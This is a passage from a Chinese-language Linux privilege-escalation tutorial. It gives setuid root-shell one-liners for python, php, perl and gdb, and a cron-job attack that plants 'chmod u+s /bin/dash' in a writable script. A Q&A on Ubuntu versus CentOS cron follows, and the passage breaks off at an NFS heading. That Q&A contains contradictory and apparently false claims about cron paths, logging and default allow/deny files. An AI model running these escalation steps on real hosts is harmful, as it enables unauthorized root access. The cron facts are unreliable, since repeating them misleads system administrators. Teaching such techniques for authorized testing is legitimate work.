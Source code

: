 ```shell
#python
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
#php
php -r "posix_setuid(0); system('/bin/sh');"
#perl
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
#gdb
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

更多的命令可以在https://gtfobins.github.io/自行寻找

#### 定时任务提权

定时任务通常被设置用于备份文件、清理目录内容等。crontab命令可以创建一个cron文件，以指定的时间区间运行。cron 服务（守护进程）在系统后台运行，并且会持续地检查 /etc/crontab 文件和 /etc/cron.*/ 目录。它同样也会检查 /var/spool/cron/ 目录。

假设我们已经进入目标机器，并尝试定时任务提权(仅演示ubuntu)

```
cat /etc/crontab
```

寻找可以利用的脚本，该脚本需要可读可写可更改

更改脚本内容来实现提权，例如将下述代码插入到python脚本中，等待执行该脚本后执行/bin/dash提权

```
os.system('chmod u+s /bin/dash')
```

如果目标机器的CronJob存在，但文件已被删除，并且未定义脚本的完整路径，cron 将引用 /etc/crontab 文件中 PATH 变量下列出的路径。可以被当前用户利用。

**问1：**ubuntu和centos的定时任务有什么区别

Ubuntu和CentOS都支持使用cron定时任务来自动执行指定的命令或脚本。它们在默认设置和配置方面存在一些区别。

1. 工具名称和路径：在Ubuntu中，cron守护程序的名称是cron，而在CentOS中，它是crond。此外，在Ubuntu中，cron配置文件的路径是/etc/crontab和/etc/cron.d/，而在CentOS中，cron配置文件的路径是/etc/crontab和/etc/cron.d/，但是crontab文件的路径是/var/spool/cron/。
2. 默认配置：在Ubuntu中，cron守护程序默认启用了用户级别的crontab文件（通过crontab -e命令创建），而在CentOS中，默认情况下只启用了系统级别的crontab文件（通过在/etc/crontab和/etc/cron.d/目录中创建文件来添加任务）。
3. 用户限制：在Ubuntu和CentOS中，系统管理员可以通过配置/etc/cron.allow和/etc/cron.deny文件来限制哪些用户可以使用cron。Ubuntu默认情况下启用了cron.allow文件，而CentOS默认情况下启用了cron.deny文件。
4. 日志文件：在Ubuntu和CentOS中，cron守护程序的日志文件路径都是/var/log/cron.log。但是，在CentOS中，默认情况下cron日志并不会记录到日志文件中，需要手动配置日志记录功能。

**问2：**centos的定时任务文件树是怎样的

CentOS 的定时任务文件树通常位于 /etc/cron.d/ 和 /var/spool/cron/目录下。

1. /etc/cron.d/：在这个目录下，系统管理员可以创建任意数量的 cron 文件，每个文件都包含多个 cron 任务。文件名可以是任意的，但通常使用描述性的名称（如 apache、mysql 等）以便于管理。每个文件的格式与 /etc/crontab文件相同，它们由五个时间字段和一个要执行的命令组成。
2. /var/spool/cron/：在这个目录下，用户可以创建他们自己的 cron 任务。每个用户都有一个以其用户名命名的文件，其中包含该用户的 cron 任务。用户可通过运行 crontab -e命令来编辑其 cron 文件。每个文件的格式与etc/crontab文件相同，它们由五个时间字段和一个要执行的命令组成。

#### NFS提权

**什么是NFS**
